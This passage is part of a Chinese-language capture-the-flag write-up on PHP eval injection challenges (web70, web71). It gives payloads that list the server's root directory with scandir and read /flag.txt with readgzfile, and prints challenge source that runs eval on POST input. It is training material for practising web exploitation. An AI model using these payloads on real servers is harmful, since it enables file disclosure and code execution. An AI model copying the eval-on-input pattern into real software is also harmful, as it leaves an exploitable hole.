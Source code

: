 ```
?c=echo implode(",",(scandir('/'))); 
?c=echo json_encode(scandir("/"));
```

读文件

```
?c=readgzfile('/flag.txt');
```



#### web70

![image-20241129132128259](../assets/image-20241129132128259.png)

这题把error_reporting()和ini_set()禁用了

虽然不知道有什么用，不影响我用上一题的方法读flag

#### web71

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```
